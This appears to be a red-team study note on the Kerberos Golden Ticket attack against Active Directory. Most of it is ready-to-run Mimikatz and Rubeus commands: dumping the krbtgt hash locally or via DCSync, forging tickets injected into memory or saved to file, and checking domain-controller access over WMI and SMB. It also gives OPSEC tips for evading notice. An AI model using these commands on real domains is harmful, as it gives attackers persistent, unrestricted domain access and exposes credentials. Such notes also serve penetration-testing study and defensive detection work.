

> [!abstract] Golden Ticket Attack
> A Golden Ticket is a forged Ticket Granting Ticket (TGT) created using the NTLM/AES hash of the `krbtgt` account. It is primarily used for **persistence** and maintaining unfettered access to all services within an Active Directory domain, even if the user's password is changed. 
> **MITRE ATT&CK Mapping:** [T1558.001 - Steal or Forge Kerberos Tickets: Golden Ticket](https://attack.mitre.org/techniques/T1558/001/)

## Kerberos Flow & Attack Injection

> [!info] Understanding the Bypass
> In a normal Kerberos flow, the client authenticates to the KDC (Step 1 & 2). A Golden Ticket bypasses the KDC entirely for initial authentication. Because the attacker has the `krbtgt` hash, they can forge the TGT (the output of Step 2) locally and directly request service tickets (Step 3).



## Prerequisites

> [!warning] What do we need?
> To forge a Golden Ticket, you typically need Domain Admin access (or equivalent) to obtain the following information:
> - **Domain FQDN:** e.g., `adolf.local`
> - **Domain SID:** e.g., `S-1-5-...`
> - **Primary Group IDs:** `500` (Administrator), `512` (Domain Admins), `513` (Domain Users)
> - `krbtgt` **Account Hash:**

> [!example]+ Extracting the `krbtgt` Hash
> If you are directly on the Domain Controller:
> ```cmd
> mimikatz # sekurlsa::krbtgt
> ```
> If you are remote (using DCSync, which requires Domain Admin privileges):
> ```cmd
> mimikatz # lsadump::dcsync /user:adolf\krbtgt /csv
> ```
> 
> **Getting Domain SID:**
> ```cmd
> mimikatz # net::trust
> mimikatz # lsadump::trust
> ```

---

## Execution: Mimikatz

> [!danger]+ Forging the Golden Ticket (Mimikatz)
> Mimikatz is the traditional tool for forging tickets. You can inject the ticket directly into memory (`/ptt`) or save it to a `.kirbi` file for transport/use with other tools.
> 
> ```cmd
> mimikatz # kerberos::golden /domain:adolf.local /sid:S-1-5-... /krbtgt:<NTLM_HASH> /user:administrator /id:500 /ptt
> ```
> *Alternative: Save to file instead of injecting:*
> ```cmd
> mimikatz # kerberos::golden /domain:adolf.local /sid:S-1-5-... /krbtgt:<NTLM_HASH> /user:administrator /id:500 /ticket:C:\Temp\cna_golden.kirbi
> ```
> *Alternative: Using AES256 key (Better OPSEC):*
> ```cmd
> mimikatz # kerberos::golden /domain:adolf.local /sid:S-1-5-... /aes256:<AES256_HASH> /user:administrator /id:500 /ptt
> ```

![[Pasted image 20241129153313.png]]
![[Pasted image 20241129153603.png]]

> [!bug] Critical OPSEC Note: `/id` must match `/user`
> Please keep in mind that the `/id` parameter **must match** the `/user` parameter in the golden ticket. For example, if you are forging a ticket for `administrator`, the `/id` must be `500` (the default RID for Administrator).

---

## Execution: Rubeus (Alternative Tool)

> [!tip]+ Forging the Golden Ticket (Rubeus)
> Rubeus is a modern C# tool that interacts directly with Kerberos APIs. It can forge Golden Tickets and automatically populate PAC fields by querying LDAP (if you specify `/ldap`), or you can set them manually.
> 
> **1. Forge ticket using LDAP to gather info automatically:**
> ```cmd
> Rubeus.exe golden /aes256:6a8941dcb801e0bf63444b830e5faabec24b44... /user:administrator /ldap /ptt
> ```
> 
> **2. Forge ticket with explicit parameters:**
> ```cmd
> Rubeus.exe golden /aes256:6a8941dcb801e0bf63444b830e5faabec24b44... /user:administrator /id:500 /pgid:512 /domain:adolf.local /sid:S-1-5-... /groups:512,513,518,519 /ptt
> ```

---

## Verification & Limitations

> [!success]+ Verifying the Attack
> To check if your Golden Ticket attack was successful, you can verify access to domain resources. 
> 
> **Important Limitation:** `WinRM` (Windows Remote Management / PowerShell Remoting) **does not work** natively when using a forged Golden Ticket because WinRM requires specific PAC structures and network logon restrictions that a basic forged ticket might not satisfy. 
> 
> Instead of testing with `Enter-PSSession` or `winrs`, use WMI (Windows Management Instrumentation) commands to verify access:
> ```powershell
> PS > gwmi win32_computersystem -ComputerName x.x.x.x
> PS > gwmi win32_OperatingSystem -ComputerName x.x.x.x
> ```
> You can also test standard SMB access:
> ```powershell
> PS > dir \\DC.adolf.local\c$
> ```

